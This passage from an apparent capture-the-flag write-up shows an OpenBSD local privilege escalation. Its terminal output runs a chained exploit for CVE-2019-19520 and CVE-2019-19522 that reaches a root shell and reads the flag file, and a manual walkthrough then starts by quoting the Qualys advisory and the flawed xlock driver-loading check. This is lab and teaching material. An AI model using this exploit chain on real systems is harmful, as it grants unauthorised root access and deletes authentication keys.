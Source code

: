 ```shell
_XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root
[+] success! we have auth group permissions

WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

[*] trying CVE-2019-19522 (S/Key) ...
Your password is: EGG LARD GROW HOG DRAG LAIN
otp-md5 99 obsd91335
S/Key Password:
openkeys# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys# ls
.Xdefaults  .composer   .cshrc      .cvsrc      .forward    .login      .profile    .ssh        .viminfo    dead.letter root.txt
openkeys# whoami
root
```

#### Grabbing root.txt

```shell
openkeys# cat root.txt
f3a553b1697050******************

```

### Manual Exploitation CVE-2019-19520

The vulnerability was originally discovered by Qualys research team and we'll use their [**Advisory**](https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt) to exploit it manually.

> xlock utility is used to lock the X server till the user enters the password at the keyboard. On OpenBSD, /usr/X11R6/bin/xlock is installed by default and has set-group-ID of ‘auth‘, but without ‘set-user-ID’. ‘set user ID’ and ‘set group ID’ are Unix access rights flags that allow users to run an executable with the permissions of the executable’s owner or group respectively.

The vulnerability exists within the xlock utility in OpenBSD within ‘xenocara/lib/mesa/src/loader/loader.c’ which mishandles dlopen function.

> On OpenBSD, /usr/X11R6/bin/xlock is installed by default and is set-group-ID "auth", not set-user-ID; the following check is therefore incomplete and should use issetugid() instead:

```shell
101 _X_HIDDEN void *
102 driOpenDriver(const char *driverName)
103 {
...
113    if (geteuid() == getuid()) {
114       /* don't allow setuid apps to use LIBGL_DRIVERS_PATH */
115       libPaths = getenv("LIBGL_DRIVERS_PATH");
```
